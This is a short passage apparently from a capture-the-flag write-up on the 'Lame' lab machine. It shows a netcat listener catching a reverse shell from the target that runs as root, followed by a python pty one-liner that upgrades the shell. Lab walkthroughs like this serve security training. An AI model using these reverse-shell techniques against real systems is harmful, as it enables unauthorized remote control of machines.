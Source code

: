 ```bash
#nc -lvnp 4444 
listening on [any] 4444 ... 
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 39930
whoami
root
```
To get a nice shell we can use pty
```bash
python -c 'import pty; pty.spawn("bash")' 
root@lame:/#
```
